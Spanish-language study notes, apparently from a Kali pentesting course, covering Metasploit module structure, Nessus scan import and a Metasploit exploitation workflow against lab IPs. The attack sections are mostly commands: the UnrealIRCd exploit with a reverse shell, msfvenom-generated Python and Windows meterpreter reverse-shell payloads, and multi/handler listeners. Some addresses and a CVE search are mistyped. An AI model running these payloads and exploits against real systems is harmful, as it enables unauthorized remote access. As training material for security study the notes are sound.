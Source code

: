 # KALI - Explotación de vulnerabilidades

## Metasploit

- Estructura de ficheros
  - se instala en /usr/share/metasploit-framework
  - tiene varios módulos, plugins (como el de unir metasploit con nessus), scripts, librerías
  - en /modules tenemos
    - auxiliares (scaneo de puertos, sniffing, herramientas para reconocimiento activo)
    - codificadores (para que el payload se codifique bien, etc)
    - evasion
    - exploits
    - nops
    - payloads
    - post
- /exploits y /payloads son los que nos interesan
- Puedo usar cat para visualiar el contenido del exploit
- En /payloads tenemos 
- singles, payloads autocontenidos, no necesitan metasploit, puedo usar netcat
- stagers, payloads pequeños que establecen conexión con una máquina y devuelven una conexión reversa. 
    - Luego aprovecha un stages para realizar una acción
- stages, el conocido meterpreter (hay otros)
- Stagers establecen la conexión y usan stages para establecer la consola con más funcionalidades
- Con msfconsole inicio metasploit

> msfconsole
-------

## Explotación básica

- con Nessus start levanta el daemon de Nessus
- https://kali:8834 para la UI de Nessus
- Si da error, en el navegador/Preferencias/Privacidad y seguridad/Cookies and Side data/ CLEAR DATA
- Actualizar la página y se arregla
- New Scan, le marco los targets con IP's
- Exporto el reporte como html, puedo abrirlo con firefox
- Entro en metasploit
- Para actualizar msfupdate
- Recomendación: si usas el help centarrse en los comandos core, hay mucha información
- connect es parecido a netcat para establecer conexiones TCP
- Para que netcat se quedara escuchando en el puerto 444 lo escribiría asi

> nc -l -p 444

- Puedo conectarme a mi mismpo desde otra consola
> connect 127.0.0.1:444

- Para buscar un exploit uso search

> search unrealirc

- Para usar el exploit

> use exploit/unix/irc/unreal_ircd_
> msf exploit (unix/irc/unreal)> show options (opciones de config)
> msf exploit (unix/irc/unreal)> show advanced (+ opciones)
> msf exploit (unix/irc/unreal)> show payloads (me muestra payloads compatibles con mi exploit)
> msf exploit (unix/irc/unreal)> set payload cmd/unix/reverse
> msf exploit (unix/irc/unreal)> show options (para ver las opciones del payload también)

- En el payload me pide el LHOST (la ip del listener) y el LPORT (el puerto)

> msf exploit (unix/irc/unreal)> set lhost 192.168.1.13
> msf exploit (unix/irc/unreal)> set lport 444
> msf exploit (unix/irc/unreal)> exploit

- Estoy dentro!
-----

## Explotación avanzada

- En ocasiones hay que modificar el exploit
- 
------

## Msfvenom - generador de payloads

> msfvenom -h //para la ayuda

- Si quiero generar un payload que me devuelva una conexión netcat usaré un single
- En single/python tengo, por ejemplo, shell_reverse_tcp.rb
- Uso -p para indicarle el path del payload y le paso mi ip y un puerto

> msfvenom -p python/shell_reverse_tcp lhost=192.168.16-130 lport=444

- Al final del mensaje hay como un token que empieza con exec, ese es el payload
- Debo introducirlo en el exploit
- Hay que escapar las comillas simples con una barra invertida primero \' y añadir al exploit
> python_payload= f'python -c "exec(\'sdksajslaksja \.decode(\'base64\'))"'

- Puedo generar un nuevo payload para establecer un meterpreter con mi ip y el puerto

> msfvenom  -p python/meterpreter/reverse_tcp lhost=192.168.16.130 lport=444

- Una vez establecida la conexion reversa, se descargará el stage y lo ejecutará para abrir un meterpreter
- Hago lo mismo, lo pego en el exploit
- Esto nos devolverá un meterpreter, necesitaré un handler para poner un listener para recibir la conexión


> msf> use exploit/multi/handler
> msf> set lhost mi_IP (192.168.1.13) 
> msf> set lport 444 
> msf> set payload python/meterpreter/reverse_tcp (el payload que haya creado con msfvenom)
> exploit (se queda a la escxucha)

- Lanzo el exploit a la ip objetivo
> ./exploit.py 192.128.1.25n 667 -- payload python_payload (nombre del payload que introduje en el exploit generado por msfvenom)

- Generar payloaad para windows es sencillo generando un .exe con -f (formato)

> msfvenom -p windows/meterpreter/reverse_tcp lhost=mi_IP lport=444 -f exe > prueba.exe

- Debo usar un handler que poner a la escucha para recibir el meterpreter, como hice anteriormente
-----

## Metasploit: importando los resultados de Nessus

- Para usar la integración de Nessus en metasploit inicio Nessus
- Para cargar un plugins
> msf> load nessus
> msf> nessus help

- debo usar nessus_connect y luego todo lo demás
- Es más sencillo gestionarlo desde la UI de Nessus
- Hacemos el reporte con Nessus y lo exportamos como .nessus
- Una vez exportado, desde metasploit lo puedo importar

> msf db_import /home/hali/desktop/escaneo.nessus

- Ahora puedo interactuar con la db de metasploit usando los resultados de nessus
>msf>hosts (para ver los targets)
>msf> services 192.168.1.29 (para ver los puertos y servicios del hosty target en el resultado de nessus)

>msf> help vulns
- Para buscar vulnerabilidades en los host target asociadas a un puerto 

>msf> vulns -p 21

- Me lista las vulnerabilidades encontradas en el host asociadas al puerto 21, además de info
- Con vulns y la ip del host atacado me muestra todas las vulnerabilidades

>msf> vulns 192.168.1.29

- Puedo buscar por CVE delos resultados de la última columna en la consola de metasploit

>msf> search cve:213-345

- Puedo acceder al primer resultado de la búsqueda usando el número de indice

> msf> use 0